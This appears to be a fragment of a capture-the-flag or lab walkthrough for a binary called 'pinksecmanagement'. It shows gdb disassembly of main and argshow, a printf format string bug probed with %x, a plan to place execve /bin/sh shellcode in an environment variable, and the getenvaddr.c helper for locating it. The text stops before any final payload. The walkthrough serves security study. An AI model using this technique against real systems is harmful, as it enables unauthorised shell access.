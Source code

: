 
break main and run

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553822884743_image.png)


disassemble main

    dissas main

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553822939275_image.png)


we are calling `argshow` function

disassemble `argshow`

    disass argshow

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553823022023_image.png)


which `argshow` is calling on a functions `printf` which is vulnerable to a format string `%x`. When we give the arg of `%x` we are telling printf to return the input in hexadecimal. 

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553823246016_image.png)


*to which is exactly what is returned.*

In this case we are going to use a 23byte shellcode to execve /bin/sh. To exploit the string bug the shell code is normally placed as an environment variable that is then called upon forcing the `/bin/sh`.

23byte /bin/sh shellcode: [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php)


we need to find the exact location in which we can place our shellcode to execute in which `getenvaddr.c` comes into play:
link: https://raw.githubusercontent.com/Partyschaum/haxe/master/getenvaddr.c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    
    int main(int argc, char *argv[]) {
            char *ptr;
    
            if(argc < 3) {
                    printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
                    exit(0);
            }
            ptr = getenv(argv[1]); /* get env var location */
            ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
            printf("%s will be at %p\n", argv[1], ptr);
    }

compile on “pinksecmanagement”
